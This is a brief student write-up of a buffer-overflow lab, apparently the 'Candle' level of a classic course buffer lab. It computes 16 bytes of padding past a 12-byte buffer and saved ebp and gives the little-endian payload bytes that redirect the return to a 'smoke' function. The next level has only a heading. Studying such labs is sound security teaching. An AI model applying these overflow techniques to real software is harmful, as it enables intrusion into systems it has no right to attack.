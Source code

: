 # Lab 3
## level 0: Candle
Get address of smoke `08048e20 <smoke>:`.

There is 12 bytes of space for `char buf[12]`, and 4 bytes for `saved ebp`, so we need 16 bytes of padding before smoke address. Remember to use litte-endian.

`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08`

## level 1: Sparkler
